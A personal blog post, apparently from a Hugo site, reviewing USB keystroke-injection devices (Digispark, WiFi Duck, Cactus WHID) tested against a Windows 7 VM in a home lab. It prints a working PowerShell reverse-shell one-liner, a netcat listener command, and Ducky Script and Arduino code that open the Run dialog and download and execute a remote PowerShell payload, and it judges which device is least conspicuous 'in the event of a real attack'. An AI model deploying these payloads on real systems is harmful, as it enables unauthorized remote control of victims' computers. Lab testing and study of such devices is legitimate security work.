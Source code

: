 ```yaml
---
title: "Rubber Ducky 🦆"
date: 2022-03-11T15:16:05+01:00
draft: false
hideLastModified: true
summaryImage: "img/rubber_ducky.webp"
keepImageRatio: true
summary: "Keystroke injection attack with different Rubber Duckys."
showInMenu: false
tags: ["Hacking", "Microcontroller"]
---
```


Rubber Duckies: A Look at the Evolution of Keystroke Injection Devices

Over the years, various iterations of Rubber Duckies have surfaced. If I recall correctly, the first "Rubber Duckies" were simply repurposed USB sticks. 
Then, Hak5 introduced a custom-made [USB Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe) that was specifically built for this purpose and heavily marketed.
Later generations included sticks with built-in Wi-Fi, and now, we even see these devices hidden inside USB cables.

## Quick Theory 👨‍🏫

The core idea is to have a USB device that masquerades as a keyboard when connected to a target computer.
It sends pre-defined keystrokes that an attacker designs.
To craft these inputs, there's a dedicated scripting language called Ducky Script, which most of these devices support.

There are already numerous pre-built Ducky Scripts available online, with the most well-known source being Hak5’s [repository](https://github.com/hak5/usbrubberducky-payloads).
You can also use an online [generator](https://ducktoolkit.com).
However, in my experience, these scripts don’t work out-of-the-box and often need to be adapted to the specific system they’re targeting.

## Reverse Shell 🐚

I once tested [Hak5’s](https://shop.hak5.org/blogs/usb-rubber-ducky/the-3-second-reverse-shell-with-a-usb-rubber-ducky) Reverse Shell attack with one of these sticks.
I tried it on a modern Windows 10 system with Windows Defender active, and the attack was immediately blocked.

![Execution Failed on Windows 10](img/win_fail.jpg)

As a result, I switched to a Windows 7 system as the target.

## Setting Up the Target System 🎯

Luckily, I still had some old Windows 7 ISOs lying around. 😅

I wasn’t keen on installing Windows 7 on an actual machine, so I turned to my lab environment.
I quickly spun up a small VM and was surprised at how smoothly it ran with just 2GB of RAM.
One thing to keep in mind is that you need to pass through the USB port to the VM, which is easy to do in Proxmox: just go to `Hardware` -> `Add` -> `USB Device`.

![Proxmox USB Passthrough](img/usb_pve.png)

## Setting Up the Attacker’s System 🏹

In this case, the attacker needs a machine or server too.
I’m using an LXC container in the same network, though normally this would be a server accessible over the internet.
On this server, I have a basic Apache2 web server running, which hosts a PowerShell script:

{{< codeWide >}}
$sm=(New-Object Net.Sockets.TCPClient("192.168.178.92",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
{{< /codeWide >}}

To start the reverse shell, run `nc -l -p 4444`, ideally within a `tmux` session.

Here’s the Ducky Script I used:

{{< codeWide >}}
DELAY 1000
GUI r
DELAY 1000
STRING powershell "IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');"
ENTER
{{< /codeWide >}}

## Various Sticks

There are several devices you can use for these types of attacks, and I’ve tested a few.
Below are three examples: the Digispark Board, the WiFi Duck, and the Cactus WHID Stick.

### Digispark Board

[Digispark Board](img/digispark.jpg)

This is a very cheap USB stick equipped with an ATtiny85, a small and low-power microcontroller from Atmel (now Microchip). The device is slow with its keystrokes and quite noticeable, but it’s a good, affordable introduction to keystroke injection attacks.
Check out this video from [Null Byte](https://www.youtube.com/watch?v=A3cB9BDE6XM) on how to program it.

#### Programming with Arduino IDE

First, you need to install the Arduino IDE.
In the preferences, add the following URL: `http://digistump.com/package_digistump_index.json`

Then, install the Digistump AVR Board in the board manager.
Unfortunately, Ducky Script isn’t supported directly, so you have to program the board in the Arduino IDE.
You can find examples online, such as on [Github](https://github.com/CedArctic/DigiSpark-Scripts).

Here’s the Ducky Script converted into Arduino code:

{{< codeWide >}}
#include "DigiKeyboard.h"
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    // Stops the digispark from running the script again
  }
}
{{< /codeWide >}}

If you run into upload errors like this:

{{< codeWide >}}
micronucleus: library/micronucleus_lib.c:66: micronucleus_connect: Assertion `res >= 4' failed.
Aborted
{{< /codeWide >}}


You’ll need to adjust your USB rules by adding the following to `/etc/udev/rules.d/digispark.rules`:

{{< codeWide >}}
SUBSYSTEM=="usb", ATTR{idVendor}=="16d0", ATTR{idProduct}=="0753", MODE="0660", GROUP="dialout"
{{< /codeWide >}}

However, the script didn’t work for me at first because my system was using a German keyboard layout.
I had to download the [DigiKeyboardDe.h](https://raw.githubusercontent.com/adnan-alhomssi/DigistumpArduinoDe/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboardDe.h) file and place it in the appropriate directory.

I then adjusted the code:

{{< codeWide >}}
#include "DigiKeyboardDe.h"
#include "DigiKeyboard.h"

void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboardDe.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('http://ducky.fritz.box/payload.ps1');\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  for (;;) {
    // Stops the digispark from running the script again
  }
}
{{< /codeWide >}}

Unfortunately, these devices are unreliable, and I wouldn’t recommend them for real-world attacks.
However, they’re a fun and simple introduction to keystroke injection attacks.

### WiFi Duck

![WiFi Duck Board](img/wifi_duck.jpg)

The WiFi Duck, developed by [Spacehuhn](https://github.com/spacehuhn), uses two microcontrollers: an Atmega32u4, which impersonates a keyboard, and an ESP8266, which provides Wi-Fi capabilities for remote control.
Installation is done via the Arduino IDE, and the instructions are well documented on the project’s [Github](https://github.com/SpacehuhnTech/WiFiDuck#atmega32u4-development-boards) page.
You can flash this firmware onto various sticks, or create a custom board to connect the necessary chips.

#### Web Interface

The ESP8266 creates a Wi-Fi network that you can connect to in order to access the device’s web interface.
Here, you can upload, manage, and execute scripts:

![WiFi Duck Index Page](img/wifiduck_index.png)

I was able to use the same Ducky Script from earlier but had to add `LOCALE DE` since my target system uses a German keyboard layout.
This change can be easily made via the web interface, which is convenient for editing, saving, and executing scripts.

![WiFi Duck Script Editor](img/wifiduck_editor.png)

There are also settings you can adjust via the Wi-Fi interface:

![WiFi Duck Settings](img/wifiduck_settings.png)

I really liked the web interface of the WiFi Duck, and it’s great for testing attacks.
The downside, in my setup, is that the device is quite noticeable.
However, using a [Malduino](https://maltronics.com/collections/malduinos/products/malduino-w) with WiFi Duck would probably be one of the best tools for such attacks. Another positive is that the software on GitHub is still actively maintained.

### Cactus WHID

![Cactus WHID](img/Cactus_WHID.jpg)

The [Cactus WHID](https://github.com/whid-injector/WHID) is another USB stick that functions similarly to the WiFi Duck, using an Atmega32u4 for keystroke injection and an ESP-12S (similar to the ESP8266) for Wi-Fi.
It comes with its own firmware, which I wanted to try out, but dose not work.

There is a Duckuino that works much better for me.


![Cactus WHID Duckuino](img/WHID_duckino.png)

Unfortunately, the different [languages](https://github.com/whid-injector/WHID/wiki/Keyboards-Layout) have to be compiled in when creating the firmware.
This makes the stick less flexible.
The web interface is also not as good as that of the WiFi Duck.
The only advantage is that the stick itself is less conspicuous in the event of a real attack.

Feel free to reach out via email, LinkedIn, or GitHub Issues for questions and feedback.